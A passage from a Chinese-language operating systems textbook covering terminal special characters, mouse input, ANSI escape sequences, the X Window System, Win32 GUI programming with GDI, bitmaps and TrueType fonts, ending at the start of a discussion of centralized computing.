现在我们讨论设备等效性问题。逻辑上，在一个文本行的结尾，人们需要一个回车和一个换行，回车使光标移回到第一列，换行使光标前进到下一行。要求用户在每一行的结尾键入回车和换行是不受欢迎的。这就要求驱动程序将输入转化成操作系统使用的格式。在UNIX中，ENTER键被转换成一个换行用于内部存储；而在Windows中，它被转换成一个回车跟随一个换行。
如果标准形式只是存储一个换行（UNIX约定），那么回车（由Enter键造成）应该转换为换行。如果内部格式是存储两者（Windows约定），那么驱动程序应该在得到回车时生成一个换行并且在得到换行时生成一个回车。不管是什么内部约定，监视器可能要求换行和回车两者都回显，以便正确地更新屏幕。在诸如大型计算机这样的多用户系统上，不同的用户可能拥有不同类型的终端连接到大型计算机上，这就要求键盘驱动程序将所有不同的回车/换行组合转换成内部系统标准并且安排好正确地实现回显。
在规范模式下操作时，许多输入字符具有特殊的含义。图5-35显示出了POSIX要求的所有特殊字符。默认的是所有控制字符，这些控制字符应该不与程序所使用的文本输入或代码相冲突，但是除了最后两个以外所有字符都可以在程序的控制下修改。
ERASE字符允许用户删除刚刚键入的字符。它通常是退格符（CTRL+H）。它并不添加到字符队列中，而是从队列中删除前一个字符。它应该被回显为三个字符的序列，即退格符、空格和退格符，以便从屏幕上删除前一个字符。如果前一个字符是制表符，那么删除它取决于当它被键入的时候是如何处理的。如果制表符直接展开成空格，那么就需要某些额外的信息来决定后退多远。如果制表符本身被存放在输入队列中，那么就可以将其删除并且重新输出整行。在大多数系统中，退格只删除当前行上的字符，不会删除回车并且后退到前一行。
当用户注意到正在键入的一行的开头有一个错误时，擦除一整行并且从头再来常常比较方便。KILL字符擦除一整行。大多数系统使被擦除的行从屏幕上消失，但是也有少数古老的系统回显该行并且加上一个回车和换行，因为有些用户喜欢看到旧的一行。因此，如何回显KILL是个人喜好问题。与ERASE一样，KILL通常也不可能从当前行进一步回退。当一个字符块被删除时，如果使用了缓冲，那么烦劳驱动程序将缓冲区退还给缓冲池可能值得做也可能不值得做。
有时ERASE或KILL字符必须作为普通的数据键入。LNEXT字符用作一个转义字符（escape character）。在UNIX中，CTRL+V是默认的转义字符。例如，更加古老的UNIX系统常常使用@作为KILL字符，但是因特网邮件系统使用linda@cs.washington.edu形式的地址。有的人觉得老式的约定更加舒服从而将KILL重定义为@，但是之后又需要按字面意义键入一个@符号到电子邮件地址中。这可以通过键入CTRL+V@来实现。CTRL+V本身可以通过键入CTRL+V CTRL+V而按字面意义键入。看到一个CTRL+V之后，驱动程序设置一个标志，表示下一字符免除特殊处理。LNEXT字符本身并不进入字符队列。
为了让用户阻止屏幕图像滚动出视线，提供了控制码以便冻结屏幕并且之后重新开始滚动。在UNIX系统中，这些控制码分别是STOP（CTRL+S）和START（CTRL+Q）。它们并不被存储，只是用来设置或清除键盘数据结构中的一个标志。每当试图输出时，就检查这个标志。如果标志已设置，则不输出。通常，回显也随程序输出一起被抑制。
杀死一个正在被调试的失控程序经常是有必要的，INTR（DEL）和QUIT（CTRL+\）字符可以用于这一目的。在UNIX中，DEL将SIGINT信号发送到从该键盘启动的所有进程。实现DEL是相当需要技巧的，因为UNIX从一开始就被设计成在同一时刻处理多个用户。因此，在一般情况下，可能存在多个进程代表多个用户在运行，而DEL键必须只能向用户自己的进程发信号。困难之处在于从驱动程序获得信息送给系统处理信号的那部分，后者毕竟还没有请求这个信息。
CTRL+\与DEL相类似，只是它发送的是SIGQUIT信号，如果这个信号没有被捕捉到或被忽略，则强迫进行核心转储。当敲击这些键中的任意一个键时，驱动程序应该回显一个回车和换行并且为了全新的开始而放弃累积的全部输入。INTR的默认值经常是CTRL+C而不是DEL，因为许多程序针对编辑操作可互换地使用DEL与退格符。
另一个特殊字符是EOF（CTRL+D）。在UNIX中，它使任何一个针对该终端的未完成的读请求以缓冲区中可用的任何字符来满足，即使缓冲区是空的。在一行的开头键入CTRL+D将使得程序读到0个字节，按惯例该字符被解释为文件结尾，并且使大多数程序按照它们在处理输入文件时遇到文件结尾的同样方法对其进行处理。
2.鼠标软件
大多数PC机具有一个鼠标，或者具有一个跟踪球，跟踪球不过是躺在其背部上的鼠标。一种常见类型的鼠标在内部具有一个橡皮球，该橡皮球通过鼠标底部的一个圆洞突出，当鼠标在一个粗糙表面上移动时橡皮球会随着旋转。当橡皮球旋转时，它与放置在相互垂直的滚轴上的两个橡皮滚筒相摩擦。东西方向的运动导致平行于y轴的滚轴旋转，南北方向的运动导致平行于x轴的滚轴旋转。
另一种流行的鼠标类型是光学鼠标，它在其底部装备有一个或多个发光二极管和光电探测器。早期的光学鼠标必须在特殊的鼠标垫上操作，鼠标垫上刻有矩形的网格，这样鼠标能够计数穿过的线数。现代光学鼠标在其中有图像处理芯片并且获取处于它们下方的连续的低分辨率照片，寻找从图像到图像的变化。
当鼠标在随便哪个方向移动了一个确定的最小距离，或者按钮被按下或释放时，都会有一条消息发送给计算机。最小距离大约是0.1mm（尽管它可以在软件中设置）。有些人将这一单位称为一个鼠标步（mickey）。鼠标可能具有一个、两个或者三个按钮，这取决于设计者对于用户跟踪多个按钮的智力的估计。某些鼠标具有滚轮，可以将额外的数据发送回计算机。无线鼠标与有线鼠标相同，区别是无线鼠标使用低功率无线电，例如使用蓝牙（Bluetooth）标准将数据发送回计算机，而有线鼠标是通过导线将数据发送回计算机。
发送到计算机的消息包含三个项目：∆x、∆y、按钮，即自上一次消息之后x位置的变化、自上一次消息之后y位置的变化、按钮的状态。消息的格式取决于系统和鼠标所具有的按钮的数目。通常，消息占3字节。大多数鼠标返回报告最多每秒40次，所以鼠标自上一次报告之后可能移动了多个鼠标步。
注意，鼠标仅仅指出位置上的变化，而不是绝对位置本身。如果轻轻地拿起鼠标并且轻轻地放下而不导致橡皮球旋转，那么就不会有消息发出。
某些GUI区分单击与双击鼠标按钮。如果两次点击在空间上（鼠标步）足够接近，并且在时间上（毫秒）也足够接近，那么就会发出双击信号。最大的“足够接近”是软件的事情，并且这两个参数通常是用户可设置的。
下面我们考虑输出软件。首先我们将讨论到文本窗口的简单输出，这是程序员通常喜欢使用的方式。然后，我们将考虑图形用户界面，这是其他用户经常喜欢使用的。
1.文本窗口
当输出是连续的单一字体、大小和颜色的形式时，输出比输入简单。大体上，程序将字符发送到当前窗口，而字符在那里显示出来。通常，一个字符块或者一行是在一个系统调用中被写到窗口上的。
屏幕编辑器和许多其他复杂的程序需要能够以更加复杂的方式更新屏幕，例如在屏幕的中间替换一行。为满足这样的需要，大多数输出驱动程序支持一系列命令来移动光标，在光标处插入或者删除字符或行。这些命令常常被称为转义序列（escape sequence）。在25行80列ASCII哑终端的全盛期，有数百种终端类型，每一种都有自己的转义序列。因而，编写在一种以上的终端类型上工作的软件是十分困难的。
一种解决方案是称为termcap的终端数据库，它是在伯克利UNIX中引入的。该软件包定义了许多基本动作，例如将光标移动到（行，列）。为了将光标移动到一个特殊的位置，软件（如一个编辑器）使用一个一般的转义序列，然后该转义序列被转换成将要被执行写操作的终端的实际转义序列。以这种方式，该编辑器就可以工作在任何具有termcap数据库入口的终端上。许多UNIX软件仍然以这种方式工作，即使在个人计算机上。
逐渐地，业界看到了转义序列标准化的需要，所以就开发了一个ANSI标准。图5-36所示为一些该标准的取值。
下面考虑文本编辑器怎样使用这些转义序列。假设用户键入了一条命令指示编辑器完全删除第3行，然后封闭第2行和第4行之间的间隙。编辑器可以通过串行线向终端发送如下的转义序列：
ESC [3;1 H ESC [0 K ESC [1 M
（其中在上面使用的空格只是为了分开符号，它们并不传送）。这一序列将光标移动到第3行的开头，擦除整个一行，然后删除现在的空行，使从第4行开始的所有行向上移动一行。现在，第4行变成了第3行，第5行变成了第4行，以此类推。类似的转义序列可以用来在显示器的中间添加文本。字和字符可以以类似的方式添加或删除。
2.X窗口系统
几乎所有UNIX系统的用户界面都以X窗口系统（X Window System）为基础，X窗口系统经常仅称为X，它是作为Athena计划 [1] 的一部分于20世纪80年代在MIT开发的。X窗口系统具有非常好的可移植性，并且完全运行在用户空间中。人们最初打算将其用于将大量的远程用户终端与中央计算服务器相连接，所以它在逻辑上分成客户软件和主机软件，这样就有可能运行在不同的计算机上。在现代个人计算机上，两部分可以运行在相同的机器上。在Linux系统上，流行的Gnome和KDE桌面环境就运行在X之上。
当X在一台机器上运行时，从键盘或鼠标采集输入并且将输出写到屏幕上的软件称为X服务器（X server）。它必须跟踪当前选择了哪个窗口（鼠标指针所在处），这样它就知道将新的键盘输入发送给哪个客户。它与称为X客户（X client）的运行中的程序进行通信（可能通过网络）。它将键盘与鼠标输入发送给X客户，并且从X客户接收显示命令。
X服务器总是位于用户的计算机内部，而X客户有可能在远方的远程计算服务器上，这看起来也许有些不可思议，但是X服务器的主要工作是在屏幕上显示位，所以让它靠近用户是有道理的。从程序的观点来看，它是一个客户，吩咐服务器做事情，例如显示文本和几何图形。服务器（在本地PC中）只是做客户吩咐它做的事情，就像所有服务器所做的那样。
对于X客户和X服务器在不同机器上的情形，客户与服务器的布置如图5-37所示。但是当在单一的机器上运行Gnome或者KDE时，客户只是使用X库与相同机器上的X服务器进行会话的某些应用程序（但是通过套接字使用TCP连接，与远程情形中所做的工作相同）。
在单机上或者通过网络在UNIX（或其他操作系统）之上运行X窗口系统都是可行的，其原因在于X实际上定义的是X客户与X服务器之间的X协议，如图5-37所示。客户与服务器是在同一台机器上，还是通过一个局域网隔开了100m，或者是相距几千公里并且通过Internet相连接都无关紧要。在所有这些情况下，协议与系统操作都是完全相同的。
X只是一个窗口系统，它不是一个完全的GUI。为了获得完全的GUI，要在其上运行其他软件层。一层是Xlib，它是一组库过程，用于访问X的功能。这些过程形成了X窗口系统的基础，我们将在下面对其进行分析，但是这些过程过于原始了，以至于大多数用户程序不能直接访问它们。例如，每次鼠标点击是单独报告的，所以确定两次点击实际上形成了双击必须在Xlib之上处理。
为了使得对X的编程更加容易，作为X的一部分提供了一个工具包，组成了Intrinsics（本征函数集）。这一层管理按钮、滚动条以及其他称为窗口小部件（widget）的GUI元素。为了产生真正的GUI界面，具有一致的外观与感觉，还需要另外一层软件（或者几层软件）。一个例子是Motif，如图5-37所示，它是Solaris和其他商业UNIX系统上使用的公共桌面环境（Common Desktop Environment）的基础。大多数应用程序利用的是对Motif的调用，而不是对Xlib的调用。Gnome和KDE具有与图5-37相类似的结构，只是库有所不同。Gnome使用GTK+库，KDE使用Qt库。拥有两个GUI是否比一个好是有争议的。
此外，值得注意的是窗口管理并不是X本身的组成部分。将其遗漏的决策完全是故意的。一个单独的客户进程，称为窗口管理器（window manager），控制着屏幕上窗口的创建、删除以及移动。为了管理窗口，窗口管理器要发送命令到X服务器告诉它做什么。窗口管理器经常运行在与X客户相同的机器上，但是理论上它可以运行在任何地方。
这一模块化设计，包括若干层和多个程序，使得X高度可移植和高度灵活。它已经被移植到UNIX的大多数版本上，包括Solaris、BSD的所有派生版本、AIX、Linux等，这就使得对于应用程序开发人员来说在多种平台上拥有标准的用户界面成为可能。它还被移植到其他操作系统上。相反，在Windows中，窗口与GUI系统在GDI中混合在一起并且处于内核之中，这使得它们维护起来十分困难，并且当然是不可移植的。
现在让我们像是从Xlib层观察那样来简略地看一看X。当一个X程序启动时，它打开一个到一个或多个X服务器（我们称它们为工作站）的连接，即使它们可能与X程序在同一台机器上。在消息丢失与重复由网络软件来处理的意义上，X认为这一连接是可靠的，并且它不用担心通信错误。通常在服务器与客户之间使用的是TCP/IP。
四种类型的消息通过连接传递：
1)从程序到工作站的绘图命令。
2)工作站对程序请求的应答。
3)键盘、鼠标以及其他事件的通告。
4)错误消息。
从程序到工作站的大多数绘图命令是作为单向消息发送的，不期望应答。这样设计的原因是当客户与服务器进程在不同的机器上时，命令到达服务器并且执行要花费相当长的时间周期。在这一时间内阻塞应用程序将不必要地降低其执行速度。另一方面，当程序需要来自工作站的信息时，它只好等待直到应答返回。
与Windows类似，X是高度事件驱动的。事件从工作站流向程序，通常是为响应人的某些行动，例如键盘敲击、鼠标移动或者一个窗口被显现。每个事件消息32个字节，第一个字节给出事件类型，下面的31个字节提供附加的信息。存在许多种类的事件，但是发送给一个程序的只有那些它宣称愿意处理的事件。例如，如果一个程序不想得知键释放的消息，那么键释放的任何事件都不会发送给它。与在Windows中一样，事件是排成队列的，程序从队列中读取事件。然而，与Windows不同的是，操作系统绝对不会主动调用在应用程序之内的过程，它甚至不知道哪个过程处理哪个事件。
X中的一个关键概念是资源（resource）。资源是一个保存一定信息的数据结构。应用程序在工作站上创建资源。在工作站上，资源可以在多个进程之间共享。资源的存活期往往很短，并且当工作站重新启动后资源不会继续存在。典型的资源包括窗口、字体、颜色映射（调色板）、像素映射（位图）、光标以及图形上下文。图形上下文用于将属性与窗口关联起来，在概念上与Windows的设备上下文相类似。
X程序的一个粗略的、不完全的框架如图5-38所示。它以包含某些必需的头文件开始，之后声明某些变量。然后，它与X服务器连接，X服务器是作为XOpenDisplay的参数设定的。接着，它分配一个窗口资源并且将指向该窗口资源的句柄存放在win中。实际上，一些初始化应该出现在这里，在初始化之后X程序通知窗口管理器新窗口的存在，因而窗口管理器能够管理它。
对XCreateGC的调用创建一个图形上下文，窗口的属性就存放在图形上下文中。在一个更加复杂的程序中，窗口的属性应该在这里被初始化。下一条语句对XSelectInput的调用通知X服务器程序准备处理哪些事件，在本例中，程序对鼠标点击、键盘敲击以及窗口被显现感兴趣。实际上，一个真正的程序还会对其他事件感兴趣。最后，对XMapRaised的调用将新窗口作为最顶层的窗口映射到屏幕上。此时，窗口在屏幕上成为可见的。
主循环由两条语句构成，并且在逻辑上比Windows中对应的循环要简单得多。此处，第一条语句获得一个事件，第二条语句对事件类型进行分派从而进行处理。当某个事件表明程序已经结束的时候，running被设置为0，循环结束。在退出之前，程序释放了图形上下文、窗口和连接。
值得一提的是，并非每个人都喜欢GUI。许多程序员更喜欢上面5.6.2节讨论的那种传统的面向命令行的界面。X通过一个称为xterm的客户程序解决了这一问题。该程序仿真了一台古老的VT102智能终端，完全具有所有的转义序列。因此，编辑器（例如vi和emacs）以及其他使用termcap的软件无需修改就可以在这些窗口中工作。
3.图形用户界面
大多数个人计算机提供了GUI（Graphical User Interface，图形用户界面）。首字母缩写词GUI的发音是“gooey”。
GUI是由斯坦福研究院的Douglas Engelbart和他的研究小组发明的。之后GUI被Xerox PARC的研究人员摹仿。在一个风和日丽的日子，Apple公司的共同创立者Steve Jobs参观了PARC，并且在一台Xerox计算机上见到了GUI。这使他产生了开发一种新型计算机的想法，这种新型计算机就是Apple Lisa。Lisa因为太过昂贵因而在商业上是失败的，但是它的后继者Macintosh获得了巨大的成功。
当Microsoft得到Macintosh的原型从而能够在其上开发Microsoft Office时，Microsoft请求Apple发放界面许可给所有新来者，这样Macintosh就能够成为新的业界标准。（Microsoft从Office获得了比MS-DOS多得多的收入，所以它愿意放弃MS-DOS以获得更好的平台用于Office。）Apple负责Macintosh的主管Jean-Louis Gassée拒绝了Microsoft的请求，并且Steve Jobs已经离开了Apple而不能否决他。最终，Microsoft得到了界面要素的许可证，这形成了Windows的基础。当Microsoft开始追上Apple时，Apple提起了对Microsoft的诉讼，声称Microsoft超出了许可证的界限，但是法官并不认可，并且Windows继续追赶并超过了Macintosh。如果Gassée同意Apple内部许多人的看法（他们也希望将Macintosh软件许可给任何人），那么Apple或许会因为许可费而变得无限富有，并且现在就不会存在Windows了。
GUI具有用字符WIMP表示的四个基本要素，这些字母分别代表窗口（Window）、图标（Icon）、菜单（Menu）和定点设备（Pointing device）。窗口是一个矩形块状的屏幕区域，用来运行程序。图标是小符号，可以在其上点击导致某个动作发生。菜单是动作列表，人们可以从中进行选择。最后，定点设备是鼠标、跟踪球或者其他硬件设备，用来在屏幕上移动光标以便选择项目。
GUI软件可以在用户级代码中实现（如UNIX系统所做的那样），也可以在操作系统中实现（如Windows的情况）。
GUI系统的输入仍然使用键盘和鼠标，但是输出几乎总是送往特殊的硬件电路板，称为图形适配器（graphics adapter）。图形适配器包含特殊的内存，称为视频RAM（video RAM），它保存出现在屏幕上的图像。高端的图形适配器通常具有强大的32位或64位CPU和多达1GB自己的RAM，独立于计算机的主存。
每个图形适配器支持几种屏幕尺寸。常见的尺寸是1024×768、1280×960、1600×1200和1920×1200。除了1920×1200以外，所有这些尺寸的宽高比都是4:3，符合NTSC和PAL电视机的屏幕宽高比，因此可以在用于电视机的相同的监视器上产生正方形的像素。1920×1200尺寸意在用于宽屏监视器，它的宽高比与这一分辨率相匹配。在最高的分辨率下，每个像素具有24位的彩色显示，只是保存图像就需要大约6.5MB的RAM，所以，拥有256MB或更多的RAM，图形适配器就能够一次保存许多图像。如果整个屏幕每秒刷新75次，那么视频RAM必须能够连续地以每秒489MB的速率发送数据。
GUI的输出软件是一个巨大的主题。单是关于Windows GUI就写下了许多1500多页的书（例如Petzold，1999；Simon，1997；Rector和Newcomer，1997）。显然，在这一小节中，我们只可能浅尝其表面并且介绍少许基本的概念。为了使讨论具体化，我们将描述Win32 API，它被Windows的所有32位版本所支特。在一般意义上，其他GUI的输出软件大体上是相似的，但是细节迥然不同。
屏幕上的基本项目是一个矩形区域，称为窗口（window）。窗口的位置和大小通过给定两个斜对角的坐标（以像素为单位）惟一地决定。窗口可以包含一个标题条、一个菜单条、一个工具条、一个垂直滚动条和一个水平滚动条。典型的窗口如图5-39所示。注意，Windows的坐标系将原点置于左上角并且y向下增长，这不同于数学中使用的笛卡儿坐标。
当窗口被创建时，有一些参数可以设定窗口是否可以被用户移动，是否可以被用户调整大小，或者是否可以被用户滚动（通过拖动滚动条上的拇指）。大多数程序产生的主窗口可以被移动、调整大小和滚动，这对于Windows程序的编写方式具有重大的意义。特别地，程序必须被告知关于其窗口大小的改变，并且必须准备在任何时刻重画其窗口的内容，即使在程序最不期望的时候。
因此，Windows程序是面向消息的。涉及键盘和鼠标的用户操作被Windows所捕获，并且转换成消息，送到正在被访问的窗口所属于的程序。每个程序都有一个消息队列，与程序的所有窗口相关的消息都被发送到该队列中。程序的主循环包括提取下一条消息，并且通过调用针对该消息类型的内部过程对其进行处理。在某些情况下，Windows本身可以绕过消息队列而直接调用这些过程。这一模型与UNIX的过程化代码模型完全不同，UNIX模型是提请系统调用与操作系统相互作用的。然而，X是面向事件的。
为了使这一编程模型更加清晰，请考虑图5-40的例子。在这里我们看到的是Windows主程序的框架，它并不完整并且没有做错误检查，但是对于我们的意图而言它显示了足够的细节。程序的开头包含一个头文件windows.h，它包含许多宏、数据类型、常数、函数原型，以及Windows程序所需要的其他信息。
主程序以一个声明开始，该声明给出了它的名字和参数。WINAPI宏是一条给编译器的指令，让编译器使用一定的参数传递约定并且不需要我们进一步关心。第一个参数h是一个实例句柄，用来向系统的其他部分标识程序。在某种程度上，Win32是面向对象的，这意味着系统包含对象（例如程序、文件和窗口）。对象具有状态和相关的代码，而相关的代码称为方法（method），它对于状态进行操作。对象是使用句柄来引用的，在该示例中，h标识的是程序。第二个参数只是为了向后兼容才出现的，它已不再使用。第三个参数szCmd是一个以零终止的字符串，包含启动该程序的命令行，即使程序不是从命令行启动的。第四个参数iCmdShow表明程序的初始窗口应该占据整个屏幕，占据屏幕的一部分，还是一点也不占据屏幕（只是任务条）。
该声明说明了一个广泛采用的Microsoft约定，称为匈牙利记号（Hungarian notation）。该名称是一个涉及波兰记号的双关语，波兰记号是波兰逻辑学家J.Lukasiewicz发明的后缀系统，用于不使用优先级和括号表示代数公式。匈牙利记号是Microsoft的一名匈牙利程序员Charles Simonyi发明的，它使用标识符的前几个字符来指定类型。允许的字母和类型包括c（character，字符）、w（word，字，现在意指无符号16位整数）、i（integer，32位有符号整数）、l（long，也是一个32位有符号整数）、s（string，字符串）、sz（string terminated by a zero byte，以零字节终止的字符串）、p（pointer，指针）、fn（function，函数）和h（handle，句柄）。因此，举例来说，szCmd是一个以零终止的字符串并且iCmdShow是一个整数。许多程序员认为在变量名中像这样对类型进行编码没有什么价值，并且使Windows代码异常地难于阅读。在UNIX中就没有类似这样的约定。
每个窗口必须具有一个相关联的类对象定义其属性，在图5-40中，类对象是wndclass。对象类型WNDCLASS具有10个字段，其中4个字段在图5-40中被初始化，在一个以实际的程序中，其他6个字段也要被初始化。最重要的字段是lpfnWndProc，它是一个指向函数的长（即32位）指针，该函数处理引向该窗口的消息。此处被初始化的其他字段指出在标题条中使用哪个名字和图标，以及对于鼠标光标使用哪个符号。
在wndclass被初始化之后，RegisterClass被调用，将其发送给Windows。特别地，在该调用之后Windows就会知道当各种事件发生时要调用哪个过程。下一个调用CreateWindow为窗口的数据结构分配内存并且返回一个句柄以便以后引用它。然后，程序做了另外两个调用，将窗口轮廓置于屏幕之上，并且最终完全地填充窗口。
此刻我们到达了程序的主循环，它包括获取消息，对消息做一定的转换，然后将其传回Windows以便让Windows调用WndProc来处理它。要回答这一完整的机制是否能够得到化简的问题，答案是肯定的，但是这样做是由于历史的缘故，并且我们现在坚持这样做。
主循环之后是过程WndProc，它处理发送给窗口的各种消息。此处CALLBACK的使用与上面的WINAPI相类似，为参数指明要使用的调用序列。第一个参数是要使用的窗口的句柄。第二个参数是消息类型。第三和第四个参数可以用来在需要的时候提供附加的信息。
消息类型WM_CREATE和WM_DESTROY分别在程序的开始和结束时发送。它们给程序机会为数据结构分配内存，并且将其返回。
第三个消息类型WM_PAINT是一条指令，让程序填充窗口。它不仅当窗口第一次绘制时被调用，而且在程序执行期间也经常被调用。与基于文本的系统相反，在Windows中程序不能够假定它在屏幕上画的东西将一直保持在那里直到将其删除。其他窗口可能会被拖拉到该窗口的上面，菜单可能会在窗口上被拉下，对话框和工具提示可能会覆盖窗口的某一部分，如此等等。当这些项目被移开后，窗口必须重绘。Windows告知一个程序重绘窗口的方法是发送WM_PAINT消息。作为一种友好的姿态，它还会提供窗口的哪一部分曾经被覆盖的信息，这样程序就更加容易重新生成窗口的那一部分而不必重绘整个窗口。
Windows有两种方法可以让一个程序做某些事情。一种方法是投递一条消息到其消息队列。这种方法用于键盘输入、鼠标输入以及定时器到时。另一种方法是发送一条消息到窗口，从而使Windows直接调用WndProc本身。这一方法用于所有其他事件。由于当一条消息完全被处理后Windows会得到通报，这样Windows就能够避免在前一个调用完成前产生新的调用，由此可以避免竞争条件。
还有许多其他消息类型。当一个不期望的消息到达时为了避免异常行为，最好在WndProc的结尾处调用DefWindowProc，让默认处理过程处理其他情形。
总之，Windows程序通常创建一个或多个窗口，每个窗口具有一个类对象。与每个程序相关联的是一个消息队列和一组处理过程。最终，程序的行为由到来的事件驱动，这些事件由处理过程来处理。与UNIX采用的过程化观点相比，这是一个完全不同的世界观模型。
对屏幕的实际绘图是由包含几百个过程的程序包处理的，这些过程捆在一起形成了GDI（Graphics Device Interface，图形设备接口）。它能够处理文本和各种类型的图形，并且被设计成与平台和设备无关的。在一个程序可以在窗口中绘图（即绘画）之前，它需要获取一个设备上下文（device context）：设备上下文是一个内部数据结构，包含窗口的属性，诸如当前字体、文本颜色、背景颜色等。大多数GDI调用使用设备上下文，不管是为了绘图，还是为了获取或设置属性。
有许许多多的方法可用来获取设备上下文。下面是一个获取并使用设备上下文的简单例子：
hdc=GetDC(hwnd);
TextOut(hdc，x，y，psText，iLength);
ReleaseDC(hwnd，hdc);
第一条语句获取一个设备上下文的句柄hdc。第二条语句使用设备上下文在屏幕上写一行文本，该语句设定了字符串开始处的（x,y）坐标、一个指向字符串本身的指针以及字符串的长度。第三个调用释放设备上下文，表明程序在当时已通过了绘图操作。注意，hdc的使用方式与UNIX的文件描述符相类似。还需要注意的是，ReleaseDC包含冗余的信息（使用hdc就可以惟一地指定一个窗口）。使用不具有实际价值的冗余信息在Windows中是很常见的。
另一个有趣的注意事项是，当hdc以这样的方式被获取时，程序只能够写窗口的客户区，而不能写标题条和窗口的其他部分。在内部，在设备上下文的数据结构中，维护着一个修剪区域。在修剪区域之外的任何绘图操作都将被忽略。然而，存在着另一种获取设备上下文的方法GetWindowDC，它将修剪区域设置为整个窗口。其余的调用以其他的方法限定修剪区域。拥有多种调用做几乎相同的事情是Windows的另一个特性。
GDI的完全论述超出了这里讨论的范围。对于感兴趣的读者，上面引用的参考文献提供了补充的信息。然而，关于GDI可能还值得再说几句话，因为GDI是如此之重要。GDI具有各种各样的过程调用以获取和释放设备上下文，获取关于设备上下文的信息，获取和设置设备上下文的属性（例如背景颜色），使用GDI对象（例如画笔、画刷和字体，其中每个对象都有自己的属性）。最后，当然存在许多实际在屏幕上绘图的GDI调用。
绘图过程分成四种类型：绘制直线和曲线、绘制填充区域、管理位图以及显示文本。我们在上面看到了绘制文本的例子，所以让我们快速地看看其他类型之一。调用
Rectangle(hdc,xleft,ytop,xright,ybottom);
将绘制一个填充的矩形，它的左上角和右下角分别是（xleft,ytop）和（xright,ybottom）。例如
Rectangle(hdc,2,1,6,4);
将绘制一个如图5-41所示的矩形。线宽和颜色以及填充颜色取自设备上下文。其他的GDI调用在形式上是类似的。
4.位图
GDI过程是矢量图形学的实例。它们用于在屏幕上放置几何图形和文本。它们能够十分容易地缩放到较大和较小的屏幕（如果屏幕上的像素数是相同的）。它们还是相对设备无关的。一组对GDI过程的调用可以聚集在一个文件中，描述一个复杂的图画。这样的文件称为Windows元文件（metafile），广泛地用于从一个Windows程序到另一个Windows程序传送图画。这样的文件具有扩展名.wmf。
许多Windows程序允许用户复制图画（或一部分）并且放在Windows的剪贴板上，然后用户可以转入另一个程序并且粘贴剪贴板的内容到另一个文档中。做这件事的一种方法是由第一个程序将图画表示为Windows元文件并且将其以.wmf格式放在剪贴板上。此外，还有其他的方法做这件事。
并不是计算机处理的所有图像都能够使用矢量图形学来生成。例如，照片和视频就不使用矢量图形学。反之，这些项目可以通过在图像上覆盖一层网格扫描输入。每一个网格方块的平均红、绿、蓝取值被采样并且保存为一个像素的值。这样的文件称为位图（bitmap）。Windows中有大量的工具用于处理位图。
位图的另一个用途是用于文本。在某种字体中表示一个特殊字符的一种方法是将其表示为小的位图。于是往屏幕上添加文本就变成移动位图的事情。
使用位图的一种一般方法是通过调用BitBlt过程，该过程调用如下：
BitBIt(dsthdc,dx,dy,wid,ht,srchdc,sx,sy,rasterop);
在其最简单的形式中，该过程从一个窗口中的一个矩形复制位图到另一个窗口（或同一个窗口）的一个矩形中。前三个参数设定目标窗口和位置，然后是宽度和高度，接下来是源窗口和位置。注意，每个窗口都有其自己的坐标系，（0，0）在窗口的左上角处。最后一个参数将在下面描述。
BitBlt(hdc2,1,2,5,7,hdcl,2,2,SRCCOPY);
的效果如图5-42所示。注意字母A的整个5×7区域被复制了，包括背景颜色。
除了复制位图外，BitBlt还可以做很多事情。最后一个参数提供了执行布尔运算的可能，从而可以将源位图与目标位图合并在一起。例如，源位图可以与目标位图执行或运算，从而融入目标位图；源位图还可以与目标位图执行异或运算，该运算保持了源位图和目标位图的特征。
位图具有的一个问题是它们不能缩放。8×12方框内的一个字符在640×480的显示器上看起来是适度的。然而，如果该位图以每英寸1200点复制到10 200位×13 200位的打印页面上，那么字符宽度（8像素）为8/1200英寸或0.17mm。此外，在具有不同彩色属性的设备之间进行复制，或者在单色设备与彩色设备之间进行复制效果并不理想。
由于这样的缘故，Windows还支持一个称为DIB（Device Independent Bitmap，设备无关的位图）的数据结构。采用这种格式的文件使用扩展名.bmp。这些文件在像素之前具有文件与信息头以及一个颜色表，这样的信息使得在不同的设备之间移动位图十分容易。
5.字体
在Windows 3.1版之前的版本中，字符表示为位图，并且使用BitBlt复制到屏幕上或者打印机上。这样做的问题是，正如我们刚刚看到的，在屏幕上有意义的位图对于打印机来说太小了。此外，对于每一尺寸的每个字符，需要不同的位图。换句话说，给定字符A的10点阵字型的位图，没有办法计算它的12点阵字型。因为每种字体的每一个字符可能都需要从4点到120点范围内的各种尺寸，所以需要的位图的数目是巨大的。整个系统对于文本来说简直是太笨重了。
该问题的解决办法是TrueType字体的引入，TrueType字体不是位图而是字符的轮廓。每个TrueType字符是通过围绕其周界的一系列点来定义的，所有的点都是相对于（0，0）原点。使用这一系统，放大或者缩小字符是十分容易的，必须要做的全部事情只是将每个坐标乘以相同的比例因子。采用这种方法，TrueType字符可以放大或者缩小到任意的点阵尺寸，甚至是分数点阵尺寸。一旦给定了适当的尺寸，各个点可以使用幼儿园教的著名的逐点连算法连接起来（注意现代幼儿园为了更加光滑的结果而使用曲线尺）。轮廓完成之后，就可以填充字符了。图5-43给出了某些字符缩放到三种不同点阵尺寸的一个例子。
一旦填充的字符在数学形式上是可用的，就可以对它进行栅格化，也就是说，以任何期望的分辨率将其转换成位图。通过首先缩放然后栅格化，我们可以肯定显示在屏幕上的字符与出现在打印机上的字符将是尽可能接近的，差别只在于量化误差。为了进一步改进质量，可以在每个字符中嵌入表明如何进行栅格化的线索。例如，字母T顶端的两个衬线应该是完全相同的，否则由于舍入误差可能就不是这样的情况了。
多年来，主流计算范式一直在中心化计算和分散化计算之间振荡。最早的计算机（例如ENIAC）虽然是庞然大物，但实际上是个人计算机，因为一次只有一个人能够使用它。然后出现的是分时系统，在分时系统中许多远程用户在简单的终端上共享一个大型的中心计算机。接下来是PC时代，在这一阶段用户再次拥有他们自己的个人计算机。
虽然分散化的PC模型具有长处，但是它也有着某些严重的不利之处，人们刚刚开始认真思考这些不利之处。或许最大的问题是，每台PC机都有一个大容量的硬盘以及复杂的软件必须维护。例如，当操作系统的一个新版本发布时，必须做大量的工作分别在每台机器上进行升级。在大多数公司中，做这类软件维护的劳动力成本大大高于实际的硬件与软件成本。对于家庭用户而言，在技术上劳动力是免费的，但是很少有人能够正确地做这件事，并且更少有人乐于做这件事。对于一个中心化的系统，只有一台或几台机器必须升级，并且有专家班子做这些工作。
一个相关的问题是，用户应该定期地备份他们的几吉字节的文件系统，但是很少有用户这样做。当灾难袭来时，相随的将是仰天长叹和捶胸顿足。对于一个中心化的系统，自动化的磁带机器人在每天夜里都可以做备份。
